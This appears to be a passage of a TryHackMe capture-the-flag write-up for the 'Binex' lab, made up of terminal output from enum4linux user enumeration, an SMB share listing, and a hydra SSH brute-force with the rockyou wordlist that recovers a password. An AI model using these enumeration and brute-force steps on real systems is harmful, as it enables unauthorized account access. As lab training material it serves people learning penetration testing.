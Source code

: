 ```
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2007993849-1719925537-2372789573
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-5-21-2007993849-1719925537-2372789573 and logon username '', password ''
S-1-5-21-2007993849-1719925537-2372789573-501 THM_EXPLOIT\nobody (Local User)
S-1-5-21-2007993849-1719925537-2372789573-513 THM_EXPLOIT\None (Domain Group)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\tryhackme (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
enum4linux complete on Mon Oct 12 17:53:18 2020
```

- kel
- des
- tryhackme
- noentry

```
bibo318@parrot:~/CTFs/tryhackme/Binex$ smbclient -L 10.10.45.117 -U anomymous
Enter WORKGROUP\anomymous's password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (THM_exploit server (Samba, Ubuntu))
```

```
bibo318@parrot:~/CTFs/tryhackme/Binex$ hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.117
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-12 17:55:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.45.117:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 134.33 tries/min, 403 tries in 00:03h, 14343998 to do in 1779:40h, 16 active
[STATUS] 116.86 tries/min, 818 tries in 00:07h, 14343583 to do in 2045:45h, 16 active
[22][ssh] host: 10.10.45.117   login: tryhackme   password: thebest
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-12 18:03:00
```
